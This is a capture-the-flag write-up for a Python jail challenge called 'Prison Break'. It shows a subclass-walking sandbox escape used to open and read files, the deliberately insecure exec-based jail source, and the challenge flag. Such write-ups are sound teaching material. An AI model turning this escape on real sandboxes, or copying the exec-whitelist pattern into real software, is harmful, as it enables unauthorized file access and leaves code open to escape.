 ```yaml
---
layout: post
title: "Prison Break"
author: "vishalananth"
tags: ['Miscellaneous']
---
```


I saw them put someone in jail. Can you find out who it is? They said this is the best prison ever built. You sure can't break it, can you?

nc chall.csivit.com 30407

## Solution

We netcat into the given IP and notice that the python interpreter is open and many common commands are banned. So like with any python jail we try different things to bypass the banned commands. We see
`print(dir())` works and hence decide to proceed along those lines. We try

```python
print(dir(__builtins__))
```
We then try

```python
print(().__class__.__base__.__subclasses__())
```

This prints a lot of useful classes among which was the `file` class. So we try to open the flag file with

```python
print(().__class__.__base__.__subclasses__()[40]("flag.txt","r").read())
```

We see it does not have the flag and asks us to check the source code for flag. So I randomly tried

```python
print(().__class__.__base__.__subclasses__()[40]("jail.py","r").read())
```

and got the source code which had the flag

```python
#!/usr/bin/python

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)
        sys.stdout.flush()

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")
sys.stdout.flush()

def flag_function():
    flag = "csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}"

while 1:
    try:
        sys.stdout.write(">>> ")
        sys.stdout.flush()
        code = _raw_input()
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
        sys.stdout.flush()
```


## Flag
```
csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}
```

